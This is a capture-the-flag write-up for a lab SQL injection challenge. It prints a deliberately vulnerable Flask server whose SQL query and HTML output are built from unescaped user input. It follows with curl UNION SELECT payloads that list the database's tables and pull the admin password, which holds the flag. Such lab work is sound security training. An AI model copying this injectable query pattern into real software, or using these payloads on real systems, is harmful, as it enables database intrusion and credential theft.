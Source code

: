 # SQLi 4

```cat /challenge/server```

```
hacker@web-security~sqli-4:~$ cat /challenge/server
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import random
import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

random_user_table = f"users_{random.randrange(2**32, 2**33)}"
db.execute(f"""CREATE TABLE {random_user_table} AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
# https://www.sqlite.org/lang_insert.html
db.execute(f"""INSERT INTO {random_user_table} SELECT "guest" as username, "password" as password""")


@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:
        # https://www.sqlite.org/schematab.html
        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM {random_user_table} WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql.replace(random_user_table, "REDACTED") }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
hacker@web-security~sqli-4:~$
```

-------------------------------------------------------------

### Since the name of the table needed to inject is unknown, first step is finding the table names and getting the right one.


```
curl -v "http://challenge.localhost:80/?query=%22UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type=%22table"
```

------------------------------------------------------

### In the results just one table was returned, so this is obviously it.


```
<html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='"UNION SELECT name FROM sqlite_master WHERE type="table'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM REDACTED WHERE username LIKE ""UNION SELECT name FROM sqlite_master WHERE type="table"</pre><br>
        <b>Results:</b><pre>users_4728253993</pre>
        </body></html>
* shutting down connection #0
```

---------------------------------------------

### Craft the UNION SELECT request with the table name:


```
curl -v "http://challenge.localhost:80/?query=%22UNION%20SELECT%20password%20FROM%20user
s_4728253993%20WHERE%20username=%22admin"
```
